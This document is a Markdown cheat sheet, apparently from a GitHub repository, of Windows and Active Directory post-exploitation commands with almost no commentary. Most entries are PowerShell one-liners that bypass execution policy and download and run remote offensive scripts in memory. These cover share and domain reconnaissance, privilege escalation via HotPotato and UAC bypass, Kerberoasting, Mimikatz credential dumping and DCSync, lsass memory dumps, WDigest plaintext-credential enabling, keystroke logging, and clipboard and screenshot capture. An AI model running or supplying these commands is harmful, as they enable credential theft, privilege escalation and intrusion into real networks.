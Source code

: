 ## Table of Contents

- [Domain Recon](#domain\recon)
  - [ShareFinder - Look for shares on network and check access under current user context & Log to file](#ShareFinder\-\Look\for\shares\on\network\and\check\access\under\current\user\context\&\Log\to\file)
  - [Import PowerView Module](#Import\PowerView\Module)
  - [Invoke-BloodHound for domain recon](#Invoke-BloodHound\for\domain\recon)
  - [ADRecon script to generate XLSX file of domain properties](#ADRecon\script\to\generate\XLSX\file\of\domain\properties)
- [Priv Esc](#priv\esc)
  - [PowerUp script](#PowerUp\script)
  - [cPasswords in sysvol](#cPasswords\in\sysvol)
  - [Inveigh](#Inveigh)
    - [Start inveigh using Basic Auth - logging to file](#Start\inveigh\using\Basic\Auth\-\logging\to\file)
    - [Start inveigh in silent mode (no popups)](#Start\inveigh\in\silent\mode\(no\popups))
  - [Invoke-HotPotato Exploit](#Invoke-HotPotato\Exploit)
  - [Bypass UAC and launch PowerShell window as admin](#Bypass\UAC\and\launch\PowerShell\window\as\admin)
  - [Invoke-Kerberoast with Hashcat Output](#Invoke-Kerberoast\with\Hashcat\Output)
- [Reg Keys](#reg\keys)
  - [Enable Wdigest](#Enable\Wdigest)
  - [Check always install elevated](#Check\always\install\elevated)
- [Mimikatz](#mimikatz)
  - [Invoke Mimikatz](#Invoke\Mimikatz)
  - [Import Mimikatz Module](#Import\Mimikatz\Module)
  - [Perform DcSync attack](#Perform\DcSync\attack)
  - [Invoke-MassMimikatz](#Invoke-MassMimikatz)
  - [Manual Procdump for offline mimikatz](#Manual\Procdump\for\offline\mimikatz)
- [Useful Scripts/Commands](#useful\scripts/commands)
  - [Use Windows Debug api to pause live processes](#Use\Windows\Debug\api\to\pause\live\processes)
  - [Import Powersploits invoke-keystrokes](#Import\Powersploits\invoke-keystrokes)
  - [Import Empire's Get-ClipboardContents](#Import\Empire's\Get-ClipboardContents)
  - [Import Get-TimedScreenshot](#Import\Get-TimedScreenshot)
- [Useful Links](#useful\links)
  - [Nmap](#Nmap)
  - [EyeWitness Binary](#EyeWitness\Binary)
  - [Sys InternalTools](#Sys\InternalTools)
  - [List of Binaries that can be used for living off the land techniques](#List\of\Binaries\that\can\be\used\for\living\off\the\land\techniques)
- [Installing CrackMapexec (Linux/Windows)](#installing\crackmapexec\(linux/windows))

```Powershell
# Domain Recon
## ShareFinder - Look for shares on network and check access under current user context & Log to file
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1');Invoke-ShareFinder -CheckShareAccess|Out-File -FilePath sharefinder.txt"
```
## Import PowerView Module
```

powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1')"
```
#powerview
## Invoke-BloodHound for domain recon
```
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/SharpHound.ps1');Invoke-BloodHound"
```
#bloodhound
## ADRecon script to generate XLSX file of domain properties
```powershell
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/sense-of-security/ADRecon/master/ADRecon.ps1')"
```
# Priv Esc
## PowerUp script
```powershell

powershell.exe -exec Bypass -C “IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1’);Invoke-AllChecks”
```
## cPasswords in sysvol
```powershell

findstr /S cpassword %logonserver%\sysvol\*.xml
findstr /S cpassword $env:logonserver\sysvol\*.xml
```
## Inveigh
### Start inveigh using Basic Auth - logging to file
```powershell

powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1');Invoke-Inveigh -ConsoleOutput Y –NBNS Y –mDNS Y  –Proxy Y -LogOutput Y -FileOutput Y -HTTPAuth Basic"
```
### Start inveigh in silent mode (no popups)
```powershell

powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1');Invoke-Inveigh -ConsoleOutput Y –NBNS Y –mDNS Y  –Proxy Y -LogOutput Y -FileOutput Y -WPADAuth anonymous"
```

## Invoke-HotPotato Exploit
```powershell

powershell.exe -nop -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Tater/master/Tater.ps1');invoke-Tater -Command 'net localgroup Administrators user /add'"
```

## Bypass UAC and launch PowerShell window as admin
```powershell

powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-BypassUAC.ps1');Invoke-BypassUAC -Command 'start powershell.exe'"
```

## Invoke-Kerberoast with Hashcat Output
```powershell

powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-kerberoast -OutputFormat Hashcat"
```
# Reg Keys
## Enable Wdigest
```python

reg add HKLM\SYSTEM\CurrentControlSet\Contro\SecurityProviders\Wdigest /v UseLogonCredential /t Reg_DWORD /d 1 /f
```
## Check always install elevated
```powershell

reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

# Mimikatz
## Invoke Mimikatz
```powershell
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"

## Import Mimikatz Module
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')"

## Perform DcSync attack
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:demodomain /user:sqladmin"'

## Invoke-MassMimikatz
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PewPewPew/Invoke-MassMimikatz.ps1');'$env:COMPUTERNAME'|Invoke-MassMimikatz -Verbose"

## Manual Procdump for offline mimikatz
.\procdump.exe -accepteula -ma lsass.exe lsass.dmp


# Useful Scripts/Commands
## Use Windows Debug api to pause live processes
powershell.exe -nop -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/besimorhino/Pause-Process/master/pause-process.ps1');Pause-Process -ID 1180;UnPause-Process -ID 1180;"

## Import Powersploits invoke-keystrokes
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-Keystrokes.ps1')"

## Import Empire's Get-ClipboardContents
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/collection/Get-ClipboardContents.ps1')"

## Import Get-TimedScreenshot
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/obscuresec/PowerShell/master/Get-TimedScreenshot')"


# Useful Links
## Nmap
https://nmap.org/dist/nmap-7.70-win32.zip

## EyeWitness Binary
https://www.christophertruncer.com/InstallMe/EyeWitness.zip

## Sys InternalTools
https://live.sysinternals.com/
https://download.sysinternals.com/files/SysinternalsSuite.zip

## List of Binaries that can be used for living off the land techniques
https://github.com/api0cradle/LOLBAS
```

# Installing CrackMapexec (Linux/Windows)
```bash
apt-get install -y libssl-dev libffi-dev python-dev-is-python3 build-essential

git clone https://github.com/mpgn/CrackMapExec

cd CrackMapExec

poetry install

poetry run crackmapexec
```




